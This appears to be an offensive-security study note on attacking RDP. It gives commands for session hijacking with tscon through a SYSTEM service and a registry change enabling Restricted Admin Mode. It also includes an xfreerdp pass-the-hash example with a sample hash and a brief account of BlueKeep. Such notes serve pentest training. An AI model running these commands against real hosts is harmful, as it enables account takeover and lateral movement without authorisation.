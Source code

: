 ## Enumeration

Refer to Service enumeration.

## Protocol Specific Attacks

### RDP Session hijacking

To successfully impersonate a user without their password, we need to have `SYSTEM` privileges.

```powershell
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrative privileges, we can escalate to `SYSTEM`. Simple trick - Use Windows service that, by default, run as `Local System` and executes any binary with `SYSTEM` privileges.

```powershell
## Check sessions
query user

## Session hijack
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

## Start session
net start sessionhijack
```

## RDP Pass-the-Hash (PtH)

Caveats:

- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host.

    This can be enabled with the following:

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```bash
## PtH
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

## Noticeable FTP Vulnerability

## CVE-2019-0708 (BlueKeep)

Vulnerability occurs after initializing the connection when basic settings are exchanged between client and server. This is known as a Use-After-Free (UAF) technique that uses freed memory to execute arbitrary code.

After the function has been exploited and the memory has been freed, data is written to the kernel, which allows us to overwrite the kernel memory. This memory is used to write our instructions into the freed memory and let the CPU execute them.

